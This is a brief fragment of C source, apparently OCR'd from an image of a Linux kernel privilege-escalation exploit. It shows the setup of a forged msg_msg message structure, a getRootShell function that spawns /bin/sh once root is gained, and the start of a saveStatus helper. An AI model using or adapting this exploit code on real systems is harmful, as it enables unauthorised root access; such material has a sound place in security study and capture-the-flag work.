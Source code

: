 ```
  msg->m_type = MTYPE_FAKE;
  msg->m_ts = m_ts;
  msg->next = next;
  msg->security = 0;
}
 
void getRootShell(void)
{
    if (getuid())
    {
      printf("failed to gain the root!\n");
      exit(0);
    }
    printf("\033[32m\033[1m[+] Succesfully gain the root privilege, trigerring root shell now...\033[0m\n");
    system("/bin/sh");
}
 
void saveStatus()
